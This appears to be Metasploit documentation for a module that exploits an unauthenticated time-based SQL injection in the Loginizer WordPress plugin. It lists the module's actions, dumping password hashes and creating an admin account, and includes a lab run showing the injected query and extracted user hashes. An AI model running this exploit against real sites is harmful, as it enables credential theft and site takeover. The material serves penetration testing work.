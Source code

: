 ## Vulnerable Application

Loginizer wordpress plugin contains an unauthenticated timebased SQL injection in
versions before 1.6.4.  The vulnerable parameter is in the `log` parameter.

Wordpress has forced updates of the plugin to all servers.  To test this exploit, the server
must not have a connection to the internet.

All versions can be downloaded from [wordress.org](https://wordpress.org/plugins/loginizer/advanced/)
or [1.6.3](https://downloads.wordpress.org/plugin/loginizer.1.6.3.zip)

## Verification Steps

1. Disconnect the server from the internet
1. Install the plugin on wordpress
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_loginizer_log_sqli`
1. Do: `set action [action]`
1. Do: `run`

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

### ACTION: Create Admin

### COUNT

If Action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `1`.

## Scenarios

### Wordpress 5.4.2 with Loginizer 1.6.3 on Ubuntu 20.04 using MariaDB 10.3.22

#### List Users

```
resource (loginizer.rb)> use auxiliary/scanner/http/wp_loginizer_log_sqli
resource (loginizer.rb)> set verbose true
verbose => true
resource (loginizer.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf6 auxiliary(scanner/http/wp_loginizer_log_sqli) > set count 3
count => 3
msf6 auxiliary(scanner/http/wp_loginizer_log_sqli) > run

[*] Checking /wp-content/plugins/loginizer/readme.txt
[*] Found version 1.6.3 in the plugin
[+] Vulnerable version detected
[*] {SQLi} Executing (select group_concat(XMjgCKOLn) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) XMjgCKOLn from wp_users limit 3) ZtmrJNCuJ)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

